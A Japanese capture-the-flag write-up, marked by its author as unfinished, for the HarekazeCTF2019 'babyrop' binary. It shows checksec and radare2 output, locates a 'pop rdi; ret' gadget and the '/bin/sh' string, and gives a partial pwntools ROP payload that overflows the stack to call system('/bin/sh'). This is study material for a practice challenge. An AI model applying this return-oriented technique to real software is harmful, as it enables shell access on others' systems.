

# babyrop(Exploit未完成)

まず, fileコマンドを用いて, ファイルの状態をみる.
```
$ file babyrop
babyrop: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 2.6.32, BuildID[sha1]=b5a3b2575c451140ec967fd78cf8a60f2b7ef17f, not stripped
```

checksecを用いて, このELFファイルのセキュリティ機構を表示します.
```
$ checksec babyrop
[*] '/home/vagrant/File/babyrop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

canaryがないのでBOFができそうです。<br>
セキュリティ機構については[ここ](https://web.archive.org/web/20170306105226/http://pwn.hatenadiary.jp/entry/2015/12/05/195316)から

次に, radare2でmain関数の逆アセンブルの結果をみます.



状況としては

- `edi`に, `echo`コマンドの文字列("echo -n \"What's your name? \")を格納<br>
  **(注: x86(64)において、`edi`(`rdi`)には関数の第一引数が入る)**
- `system("echo -n \"What's your name? \")`を実行し、名前を聞かれる.
- `scanf`を呼び出し, 任意サイズの文字列をスタック変数[`rbp-0x10`]に格納.
- `printf("Welcome to the Pwn World, %s!\n")`でメッセージ表示

ファイル名の通り、ROPを実現するためにもシェルを起動する`system("/bin/sh");`を実行する事を目標とする.

## シェルを奪う

mainの逆アセンブル結果から, `system`を呼び出す直前に, シェルコマンド文字列へのポインタを`edi`で指定した事がわかる.

よって, `edi`(`rdi`)に値を指定するROP Gadgetが必要となる. radare2を用いて出してみる.


`/R`を用いると導いてくれる
```
[0x004004e0]> /R?
|Usage: /R Search for ROP gadgets
| /R [filter-by-string]    Show gadgets
| /R/ [filter-by-regexp]   Show gadgets [regular expression]
| /Rl [filter-by-string]   Show gadgets in a linear manner
| /R/l [filter-by-regexp]  Show gadgets in a linear manner [regular expression]
| /Rj [filter-by-string]   JSON output
| /R/j [filter-by-regexp]  JSON output [regular expression]
| /Rk [select-by-class]    Query stored ROP gadgets
```

そして`rdi`の場所がわかる
```
[0x004004e0]> /R pop rdi
  0x00400683                 5f  pop rdi
  0x00400684                 c3  ret
```

また、`rdi`(`0x00400683`)に`/bin/sh`を渡すため、これもradare2を用いて求める。
```
[0x004004e0]> izz | grep /bin/sh
024 0x00001048 0x00601048   7   8 (.data) ascii /bin/sh
```
という事で、アドレス`0x00601048`に`/bin/sh`があることがわかった.

```
from pwn import *

payload = "A" * 0x20       # BOF
payload += p64(0x400683)   # pop rdi
payload += p64(0x601048)   # /bin/sh
payload += p64(0x004005e3) # call system

# すみません、ここはできませんでした
```

#### 参考
1. https://m412u.hatenablog.com/entry/2019/05/21/124929
2. https://madousho.hatenadiary.jp/entry/2019/05/20/015653
3. https://github.com/TeamHarekaze/HarekazeCTF2019-challenges/blob/master/baby_rop/README.md
